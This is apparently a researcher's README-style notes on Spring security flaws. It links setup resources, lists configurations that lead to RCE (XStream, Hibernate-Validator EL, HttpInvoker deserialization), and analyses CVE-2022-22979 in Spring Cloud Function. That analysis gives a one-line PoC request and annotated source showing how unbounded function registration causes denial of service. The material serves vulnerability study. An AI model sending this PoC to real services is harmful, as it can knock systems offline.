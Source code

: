 ## Programming Environment Setup
Spring Security Advisories: https://spring.io/security/

SpringBoot: https://start.spring.io/

Spring Projects Examples: https://github.com/spring-projects

Spring Extension Examples: https://github.com/spring-guides

Sring Cloud correspond to Springboot versions: https://spring.io/projects/spring-cloud
```
    <properties>
        <java.version>1.8</java.version>
<!--        <spring-cloud.version>2021.0.3</spring-cloud.version>-->
        <spring-cloud.version>Hoxton.SR3</spring-cloud.version>
    </properties>
```

## Some Problems in Spring Config
Spring OXM —— XStreamMarshaller —— XStream RCE

Hibernate-Validator —— @Valid + buildConstraintViolationWithTemplate —— EL RCE

Http-Invoker —— HttpInvokerServiceExporter —— Deserialization RCE

Ref: https://github.com/ax1sX/SpringSecurity/tree/main/SpringConfigTest

## Vulnerabilities
### （1）Spring Cloud Function
#### CVE-2022-22979 DoS
Affected Version: < 3.2.6

Ref: https://checkmarx.com/blog/spring-function-cloud-dos-cve-2022-22979-and-unintended-function-invocation/

POC: 
```
POST /uppercase, HTTP/1.1

{'a':1}
```
Factor: 
```
BeanFactoryAwareFunctionRegistry
public <T> T lookup(Class<?> type, String functionDefinition, String... expectedOutputMimeTypes) {
    functionDefinition = StringUtils.hasText(functionDefinition) ? functionDefinition : this.applicationContext.getEnvironment().getProperty("spring.cloud.function.definition", ""); // get uri -> "uppercase,"
    functionDefinition = this.normalizeFunctionDefinition(functionDefinition); // Replace , with |, -> "uppercase|"
    ...
    FunctionInvocationWrapper function = (FunctionInvocationWrapper)this.doLookup(type, functionDefinition, expectedOutputMimeTypes);// (1)function=wrappedFunctionDefinitions.get(functionDefinition); (2)if(function==null){"uppercase|" -> ["uppercase", ""]，遍历数组从Function注册表中寻找对应值，找到了就将Function存放于wrappedFunctionDefinitions，没找到就返回空}
    if (function == null) {
      ...
      this.register(functionRegistration);// SimpleFunctionRegistry.register
    }
}

SimpleFunctionRegistry
public <T> void register(FunctionRegistration<T> registration) {
    this.functionRegistrations.add(registration); //将funtion注册在funtionRegistrations中，它是CopyOnWriteArraySet类型，随着size无限增大造成DoS
```